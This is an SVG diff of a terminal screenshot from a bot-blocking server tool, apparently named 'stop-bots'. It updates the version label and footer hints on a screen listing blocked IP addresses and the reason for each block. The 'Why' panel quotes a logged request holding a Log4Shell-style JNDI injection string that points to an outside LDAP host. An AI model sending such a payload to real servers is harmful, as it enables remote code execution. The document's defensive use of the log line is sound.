

<svg xmlns="http://www.w3.org/2000/svg" viewBox="0 0 931 384" width="931" height="384" font-family="ui-monospace,SFMono-Regular,Menlo,Consolas,'DejaVu Sans Mono',monospace" font-size="14">
  <rect width="100%" height="100%" rx="8" fill="#12161c" />
  <rect x="20.4" y="174.0" width="226.8" height="18.0" fill="#10262a" />
  <rect x="247.2" y="174.0" width="58.8" height="18.0" fill="#10262a" />
  <rect x="306.0" y="174.0" width="184.8" height="18.0" fill="#10262a" />
  <rect x="490.8" y="174.0" width="168.0" height="18.0" fill="#10262a" />
  <rect x="658.8" y="174.0" width="252.0" height="18.0" fill="#10262a" />
  <text x="12.0" y="25.5" fill="#2ee6d6" textLength="75.6" lengthAdjust="spacingAndGlyphs" xml:space="preserve" font-weight="bold">stop-bots</text>
-   <text x="87.6" y="25.5" fill="#6b7c8c" textLength="117.6" lengthAdjust="spacingAndGlyphs" xml:space="preserve"> 0.2.1  web-01</text>
+   <text x="87.6" y="25.5" fill="#6b7c8c" textLength="117.6" lengthAdjust="spacingAndGlyphs" xml:space="preserve"> 0.3.0  web-01</text>
  <text x="12.0" y="43.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">1</text>
  <text x="28.8" y="43.5" fill="#6b7c8c" textLength="75.6" lengthAdjust="spacingAndGlyphs" xml:space="preserve">Dashboard</text>
  <text x="129.6" y="43.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">2</text>
  <text x="146.4" y="43.5" fill="#6b7c8c" textLength="100.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve">Bot settings</text>
  <text x="272.4" y="43.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">3</text>
  <text x="289.2" y="43.5" fill="#6b7c8c" textLength="67.2" lengthAdjust="spacingAndGlyphs" xml:space="preserve">Firewall</text>
  <text x="381.6" y="43.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">4</text>
  <text x="398.4" y="43.5" fill="#6b7c8c" textLength="42.0" lengthAdjust="spacingAndGlyphs" xml:space="preserve">NGINX</text>
  <text x="465.6" y="43.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve" font-weight="bold">5</text>
  <text x="482.4" y="43.5" fill="#2ee6d6" textLength="50.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve" font-weight="bold">Blocks</text>
  <text x="558.0" y="43.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">?</text>
  <text x="574.8" y="43.5" fill="#6b7c8c" textLength="33.6" lengthAdjust="spacingAndGlyphs" xml:space="preserve">Help</text>
  <text x="12.0" y="61.5" fill="#6b7c8c" textLength="50.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">status</text>
  <text x="79.2" y="61.5" fill="#8cc265" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">●</text>
  <text x="96.0" y="61.5" fill="#6b7c8c" textLength="50.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">kernel</text>
  <text x="163.2" y="61.5" fill="#d18f52" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">▲</text>
  <text x="171.6" y="61.5" fill="#c8d0da" textLength="75.6" lengthAdjust="spacingAndGlyphs" xml:space="preserve"> reboot  </text>
  <text x="247.2" y="61.5" fill="#d18f52" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">▲</text>
  <text x="255.6" y="61.5" fill="#c8d0da" textLength="75.6" lengthAdjust="spacingAndGlyphs" xml:space="preserve"> script  </text>
  <text x="331.2" y="61.5" fill="#d18f52" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">▲</text>
  <text x="339.6" y="61.5" fill="#c8d0da" textLength="67.2" lengthAdjust="spacingAndGlyphs" xml:space="preserve"> nginx  </text>
  <text x="406.8" y="61.5" fill="#8cc265" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">●</text>
  <text x="423.6" y="61.5" fill="#6b7c8c" textLength="42.0" lengthAdjust="spacingAndGlyphs" xml:space="preserve">files</text>
  <text x="482.4" y="61.5" fill="#8cc265" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">●</text>
  <text x="499.2" y="61.5" fill="#6b7c8c" textLength="67.2" lengthAdjust="spacingAndGlyphs" xml:space="preserve">schedule</text>
  <text x="583.2" y="61.5" fill="#8cc265" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">●</text>
  <text x="600.0" y="61.5" fill="#6b7c8c" textLength="33.6" lengthAdjust="spacingAndGlyphs" xml:space="preserve">disk</text>
  <text x="650.4" y="61.5" fill="#8cc265" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">●</text>
  <text x="667.2" y="61.5" fill="#6b7c8c" textLength="67.2" lengthAdjust="spacingAndGlyphs" xml:space="preserve">database</text>
  <text x="751.2" y="61.5" fill="#8cc265" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">●</text>
  <text x="768.0" y="61.5" fill="#6b7c8c" textLength="33.6" lengthAdjust="spacingAndGlyphs" xml:space="preserve">logs</text>
  <text x="818.4" y="61.5" fill="#8cc265" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">●</text>
  <text x="835.2" y="61.5" fill="#6b7c8c" textLength="84.0" lengthAdjust="spacingAndGlyphs" xml:space="preserve">log format</text>
  <text x="12.0" y="79.5" fill="#c8d0da" textLength="75.6" lengthAdjust="spacingAndGlyphs" xml:space="preserve" font-weight="bold">5 rule(s)</text>
  <text x="87.6" y="79.5" fill="#c8d0da" textLength="151.2" lengthAdjust="spacingAndGlyphs" xml:space="preserve"> from every source</text>
  <text x="238.8" y="79.5" fill="#6b7c8c" textLength="184.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve">   f cycles the source</text>
  <text x="12.0" y="97.5" fill="#6b7c8c" textLength="487.2" lengthAdjust="spacingAndGlyphs" xml:space="preserve">/ searches by address; an address finds the range it is in</text>
  <text x="12.0" y="115.5" fill="#6b7c8c" textLength="907.2" lengthAdjust="spacingAndGlyphs" xml:space="preserve">Not listed: 0 SSH-login and 0 trusted allow(s), and the downloaded lists (Dashboard). 0 address(es) unblocke</text>
  <text x="12.0" y="151.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">┌</text>
  <text x="20.4" y="151.5" fill="#2ee6d6" textLength="142.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve" font-weight="bold"> Blocks 1–5 of 5 </text>
  <text x="163.2" y="151.5" fill="#2ee6d6" textLength="756.0" lengthAdjust="spacingAndGlyphs" xml:space="preserve">─────────────────────────────────────────────────────────────────────────────────────────┐</text>
  <text x="12.0" y="169.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">│</text>
  <text x="20.4" y="169.5" fill="#c8d0da" textLength="226.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve"> 192.0.2.201               </text>
  <text x="247.2" y="169.5" fill="#e05561" textLength="58.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve">block  </text>
  <text x="306.0" y="169.5" fill="#c8d0da" textLength="184.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve">by hand (TUI)         </text>
  <text x="490.8" y="169.5" fill="#6b7c8c" textLength="168.0" lengthAdjust="spacingAndGlyphs" xml:space="preserve">  1m ago  permanent </text>
  <text x="910.8" y="169.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">│</text>
  <text x="12.0" y="187.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">│</text>
  <text x="20.4" y="187.5" fill="#c8d0da" textLength="226.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve" font-weight="bold">▎198.51.100.230            </text>
  <text x="247.2" y="187.5" fill="#e05561" textLength="58.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve" font-weight="bold">block  </text>
  <text x="306.0" y="187.5" fill="#c8d0da" textLength="184.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve" font-weight="bold">Injection attempts    </text>
  <text x="490.8" y="187.5" fill="#6b7c8c" textLength="168.0" lengthAdjust="spacingAndGlyphs" xml:space="preserve" font-weight="bold">  1m ago  for 7d    </text>
  <text x="658.8" y="187.5" fill="#c8d0da" textLength="252.0" lengthAdjust="spacingAndGlyphs" xml:space="preserve" font-weight="bold">198.51.100.230 - - [10/Sep/202</text>
  <text x="910.8" y="187.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">│</text>
  <text x="12.0" y="205.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">│</text>
  <text x="20.4" y="205.5" fill="#c8d0da" textLength="226.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve"> 203.0.113.9               </text>
  <text x="247.2" y="205.5" fill="#e05561" textLength="58.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve">block  </text>
  <text x="306.0" y="205.5" fill="#c8d0da" textLength="184.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve">Probe paths           </text>
  <text x="490.8" y="205.5" fill="#6b7c8c" textLength="168.0" lengthAdjust="spacingAndGlyphs" xml:space="preserve">  1m ago  for 5d    </text>
  <text x="658.8" y="205.5" fill="#c8d0da" textLength="252.0" lengthAdjust="spacingAndGlyphs" xml:space="preserve">203.0.113.9 - - [10/Sep/2025:0</text>
  <text x="910.8" y="205.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">│</text>
  <text x="12.0" y="223.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">│</text>
  <text x="20.4" y="223.5" fill="#c8d0da" textLength="226.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve"> 198.51.100.17             </text>
  <text x="247.2" y="223.5" fill="#e05561" textLength="58.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve">block  </text>
  <text x="306.0" y="223.5" fill="#c8d0da" textLength="184.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve">SSH scanners          </text>
  <text x="490.8" y="223.5" fill="#6b7c8c" textLength="168.0" lengthAdjust="spacingAndGlyphs" xml:space="preserve">  1m ago  for 5d    </text>
  <text x="658.8" y="223.5" fill="#c8d0da" textLength="252.0" lengthAdjust="spacingAndGlyphs" xml:space="preserve">Sep 10 04:12:33 host sshd[2211</text>
  <text x="910.8" y="223.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">│</text>
  <text x="12.0" y="241.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">│</text>
  <text x="20.4" y="241.5" fill="#c8d0da" textLength="226.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve"> 192.0.2.44                </text>
  <text x="247.2" y="241.5" fill="#e05561" textLength="58.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve">block  </text>
  <text x="306.0" y="241.5" fill="#c8d0da" textLength="184.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve">SSH scanners          </text>
  <text x="490.8" y="241.5" fill="#6b7c8c" textLength="168.0" lengthAdjust="spacingAndGlyphs" xml:space="preserve">  1m ago  for 5d    </text>
  <text x="658.8" y="241.5" fill="#c8d0da" textLength="252.0" lengthAdjust="spacingAndGlyphs" xml:space="preserve">Sep 10 04:11:07 host sshd[2203</text>
  <text x="910.8" y="241.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">│</text>
  <text x="12.0" y="259.5" fill="#2ee6d6" textLength="907.2" lengthAdjust="spacingAndGlyphs" xml:space="preserve">└──────────────────────────────────────────────────────────────────────────────────────────────────────────┘</text>
  <text x="12.0" y="277.5" fill="#6b7c8c" textLength="907.2" lengthAdjust="spacingAndGlyphs" xml:space="preserve">┌ Why ─────────────────────────────────────────────────────────────────────────────────────────────────────┐</text>
  <text x="12.0" y="295.5" fill="#6b7c8c" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">│</text>
  <text x="20.4" y="295.5" fill="#c8d0da" textLength="117.6" lengthAdjust="spacingAndGlyphs" xml:space="preserve" font-weight="bold">198.51.100.230</text>
  <text x="138.0" y="295.5" fill="#c8d0da" textLength="772.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve"> — Injection attempts, added 1m ago                                                         </text>
  <text x="910.8" y="295.5" fill="#6b7c8c" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">│</text>
  <text x="12.0" y="313.5" fill="#6b7c8c" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">│</text>
  <text x="20.4" y="313.5" fill="#c8d0da" textLength="890.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">198.51.100.230 - - [10/Sep/2025:05:02:14 +0000] "GET /?x=${jndi:ldap://203.0.113.5/a} HTTP/1.1" 400 157   </text>
  <text x="910.8" y="313.5" fill="#6b7c8c" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">│</text>
  <text x="12.0" y="331.5" fill="#6b7c8c" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">│</text>
  <text x="20.4" y="331.5" fill="#c8d0da" textLength="890.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">"-" "curl/8.5.0"                                                                                          </text>
  <text x="910.8" y="331.5" fill="#6b7c8c" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">│</text>
  <text x="12.0" y="349.5" fill="#6b7c8c" textLength="907.2" lengthAdjust="spacingAndGlyphs" xml:space="preserve">└──────────────────────────────────────────────────────────────────────────────────────────────────────────┘</text>
  <text x="12.0" y="367.5" fill="#2ee6d6" textLength="50.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve" font-weight="bold">Blocks</text>
  <text x="79.2" y="367.5" fill="#2ee6d6" textLength="16.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve">↑↓</text>
  <text x="104.4" y="367.5" fill="#6b7c8c" textLength="33.6" lengthAdjust="spacingAndGlyphs" xml:space="preserve">move</text>
  <text x="154.8" y="367.5" fill="#2ee6d6" textLength="42.0" lengthAdjust="spacingAndGlyphs" xml:space="preserve">Enter</text>
  <text x="205.2" y="367.5" fill="#6b7c8c" textLength="58.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve">unblock</text>
  <text x="280.8" y="367.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">f</text>
  <text x="297.6" y="367.5" fill="#6b7c8c" textLength="50.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">source</text>
  <text x="364.8" y="367.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">/</text>
  <text x="381.6" y="367.5" fill="#6b7c8c" textLength="50.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">search</text>
  <text x="448.8" y="367.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">:</text>
  <text x="465.6" y="367.5" fill="#6b7c8c" textLength="67.2" lengthAdjust="spacingAndGlyphs" xml:space="preserve">commands</text>
  <text x="549.6" y="367.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">?</text>
-   <text x="566.4" y="367.5" fill="#6b7c8c" textLength="33.6" lengthAdjust="spacingAndGlyphs" xml:space="preserve">help</text>
-   <text x="616.8" y="367.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">t</text>
-   <text x="633.6" y="367.5" fill="#6b7c8c" textLength="42.0" lengthAdjust="spacingAndGlyphs" xml:space="preserve">theme</text>
-   <text x="692.4" y="367.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">q</text>
-   <text x="709.2" y="367.5" fill="#6b7c8c" textLength="33.6" lengthAdjust="spacingAndGlyphs" xml:space="preserve">quit</text>
+   <text x="566.4" y="367.5" fill="#6b7c8c" textLength="58.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve">explain</text>
+   <text x="642.0" y="367.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">t</text>
